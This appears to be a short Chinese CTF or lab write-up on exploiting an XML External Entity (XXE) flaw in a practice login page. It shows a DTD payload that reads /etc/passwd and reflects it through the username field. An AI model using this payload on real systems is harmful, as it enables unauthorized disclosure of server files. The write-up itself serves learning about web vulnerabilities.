

---
tags:
  - XXE
  - WEB
  - PHP
---
来到靶场的登录页面




首先可以判断出来的是，登录失败会显示username+登陆失败的提示
查看源代码


发现构建了一个判断登陆的函数dologin()
下面明显就是xml的形式
也可以直接使用抓包的形式劫持响应
然后通过添加DTD声明命名实体外带信息回显到username^1
```XML
<!DOCTYPE root [<!ENTITY guc SYSTEM "file:///etc/passwd">]>

<user><username>&guc;</username><password>123</password></user>
```


其中code=0只是代表登录校验没有过，但是外部实体的回显已经成功

```XML
<!DOCTYPE root [<!ENTITY guc SYSTEM "file:///etc/passwd">]>
```
最主要还是使用上述DTD声明来测试漏洞
而且实体也要放在能够回显的位置才可